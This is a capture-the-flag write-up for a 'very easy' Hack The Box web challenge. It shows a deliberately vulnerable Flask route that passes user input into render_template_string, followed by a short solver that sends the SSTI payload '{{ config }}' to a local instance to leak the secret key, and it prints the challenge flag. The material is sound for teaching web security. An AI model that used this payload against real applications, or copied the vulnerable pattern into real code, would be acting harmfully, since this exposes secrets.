

# [__BoneChewerCon__](#bonechewercon)

<p align='center'>  
  
</p>

### Description:
* We need to infiltrate the BoneChewerCon event to understand what the devil has been up to. Can you find the key to bring this event down once and for all?

### Objective:
* SSTI

### Difficulty:
* `very easy`

### Flag:
* `HTB{r3s3rv4t1on_t0_h311_1s_a11_s3t!}`

### Challenge:

Looking at the source code, we see that the flag is stored in the flask configuration as the signing key, also the `name` we register as is passed to `render_template_string`. This is suspectible to SSTI, using `{{ config }}` we'll be able to enumerate the flask configuration items and retrieve the flag.

```python
app.config['SECRET_KEY'] = open('flag').read()

def reservation(name):
	HTML = '{}{}'
	HTML += 'Thank you for registering, {name}</br>'
	HTML += '{}'
	return HTML.format(name=name)

@app.route('/')
def index():
	name = request.args.get('name', '')
	if name:
		return render_template_string(reservation(name))
	return render_template('index.html')
```

### Solver:
```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.get(HOST, params={'name': '{{ config }}'})
print(r.content)
```
